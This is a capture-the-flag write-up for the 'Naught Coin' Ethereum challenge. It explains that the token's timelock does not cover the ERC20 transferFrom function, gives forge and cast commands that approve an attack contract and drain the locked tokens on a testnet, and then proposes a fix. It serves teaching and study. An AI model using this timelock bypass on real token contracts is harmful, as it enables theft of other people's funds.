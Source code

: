 # Naught Coin

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

[ERC20 Spec](https://github.com/ethereum/ercs/blob/master/ERCS/erc-20.md)

[OpenZeppelin contracts](https://github.com/OpenZeppelin/openzeppelin-contracts/tree/master/contracts)

## Vulnerability

### ERC20 `approve` function

The `approve` function is part of the ERC20 token standard in Ethereum. It allows a token holder to approve another address (often referred to as the `spender`) to withdraw tokens from the token holder's account.

`function approve(address spender, uint256 amount) public returns (bool);`

- `spender`: The address which will be allowed to spend the tokens.
- `amount`: The number of tokens that the spender will be allowed to withdraw from the token holder's account.

The function returns a boolean value indicating whether the operation was successful. 

Once the `approve` function is called, the spender can use the `transferFrom` function to move up to the approved number of tokens from the token holder's account to another account. The spender can do this until the approved amount is exhausted or until the token holder revokes the approval by calling `approve` again with an amount of `0`.

It's important to note that there is a known race condition in the `approve` function: if a token holder calls `approve` to change the approved amount while the spender is in the process of using `transferFrom`, it's possible for the spender to use more than the token holder intended. To avoid this, token holders should generally revoke approval (by calling `approve` with an amount of `0`) before setting a new approved amount.

### ERC20 `transferFrom` function

The `transferFrom` allows a third-party (often referred to as the "spender") to transfer tokens from one account to another, provided that the token owner has approved the spender to do so using the approve function.

`function transferFrom(address sender, address recipient, uint256 amount) public returns (bool);`

- `sender`: The address from which the tokens will be transferred.
- `recipient`: The address to which the tokens will be transferred.
- `amount`: The number of tokens to be transferred.

The function returns a boolean value indicating whether the operation was successful.

Before `transferFrom` can be called, the token owner must first call the `approve` function to set an allowance for the spender. The `transferFrom` function then transfers tokens from the owner's account to the recipient, and reduces the allowance by the same amount.

If the spender tries to transfer more tokens than the allowance, or more tokens than the owner has, the `transferFrom` function will fail and return `false`.

It's important to note that the `approve` and `transferFrom` functions can potentially be vulnerable to a race condition known as the `ERC20 approve front-running attack"`. To avoid this, some token contracts implement an additional function, often called `increaseAllowance`, to safely increase the allowance without first having to reduce it to 0.

Since the `NaughtCoin.sol` contract inherits from ERC20 and `lockTokens()` modifier does not enforce `timelock` on the `transferFrom()` function, we can call `approve` and `transferFrom` to transfer all the tokens out of our account.

## Attack

1. Deploy `DeployNaughtCoinAttack.sol`.

```bash
forge script script/DeployNaughtCoinAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# make deploy ARGS="--network sepolia"
# https://sepolia.etherscan.io/address/0xfcdCf34cE63a4F92D45E552282EDbA1ed28A7629
```

2. `approve` function: the owner needs to interact with the NaughtCoin contract directly.

```bash
# must be called by the token's owner (player), the owner needs to interact with the NaughtCoin contract directly
# 0xfcdCf34cE63a4F92D45E552282EDbA1ed28A7629 is the attacker's contract (spender)
cast send $CONTRACT_ADDRESS_COIN "approve(address,uint256)" 0xfcdCf34cE63a4F92D45E552282EDbA1ed28A7629 1000000000000000000000000 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy


cast send $CONTRACT_ADDRESS_COIN "allowance(address,address)" 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 0xfcdCf34cE63a4F92D45E552282EDbA1ed28A7629 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
```

3. Attack.

```bash
cast send $CONTRACT_ADDRESS "attack()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
```

## Fix

`transferFrom` function could be overridden and the `lockTokens` modifier applied to it. This ensures that the player's tokens can't be transferred by another address before the `timeLock` has passed, even if the player has approved that address to spend their tokens.
